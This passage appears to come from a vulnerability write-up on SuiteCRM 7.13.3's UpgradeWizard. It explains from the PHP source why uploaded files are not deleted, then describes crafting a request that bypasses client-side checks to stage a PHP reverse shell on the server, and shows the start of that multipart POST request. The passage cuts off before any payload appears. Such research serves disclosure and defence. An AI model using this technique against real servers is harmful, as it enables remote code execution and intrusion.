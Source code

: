 Our evil.zip file still exists on the file system. It looks like `unlinkUWTempFiles()` did not delete our files as expected.

The `unlinkUWTempFiles()` function is defined in uw_utils.php. The function calls getUWDirs() and only assigns the second item returned to a variable $tempDir. The first result is discarded. Following this, deleteTree() is called to delete the contents of the directory specified in $tempDir.


```PHP
# uw_utils.php
function unlinkUWTempFiles()
{
    global $path;

    list(/* ignore first element */, $tempDir) = getUWDirs();
    deleteTree($tempDir, true);

    $cacheFile = sugar_cached('modules/UpgradeWizard/_persistence.php');
    if (is_file($cacheFile)) {
        logThis("Unlinking Upgrade cache file: '_persistence.php'", $path);
        @unlink($cacheFile);
    }
}
```


Stepping through this function in a debugger, we can see that the value of the second item returned by getUWDirs() and assigned to $tempDir is `cache/upgrades/temp`.

Out of curiosity, what was the first item returned by getUWDirs() which is being discarded? Our debugger shows this is `upload://upgrades`.

This now explains why our file wasn't being removed by the cleanup function! The developers purposely skipped clearing files in `upload://upgrades` and are only removing temporary files from the cache.

We can review the git history for the project and see that this behavior was introduced in (https://github.com/salesagility/SuiteCRM/commit/c26db73500ad92f044449644f1a15b52d3483ac2) and was specifically implemented as a fix to these issues (https://github.com/salesagility/SuiteCRM/issues/8261) (https://github.com/salesagility/SuiteCRM/issues/7242)

After this analysis, we can conclude that the application will retain any file we upload via the UpgradeWizard as long as it fails to find a valid manifest file. Additionally, there is insufficient validation to ensure that the file we upload is actually a compressed archive on the server-side. With this information, we can craft a request to upload a non-zip file containing a malicious payload to the server. Since we will make this request outside of the browser - we can bypass the client-side validation and we will bypass the first request to UploadFileCheck as that requirement is again only imposed by us on the client-side.

We modify the filename value for upgrade_zip to `evilFile`. This will be name of the file that will be staged on the filesystem in the upload:// directory. Next, we modify the content of what would be the zip file data to instead include a PHP reverse shell back to us.
```HTTP
POST /SuiteCRM-7.13.3/index.php HTTP/1.1

------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="module"

UpgradeWizard
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="action"

index
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="step"

2
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="run"
```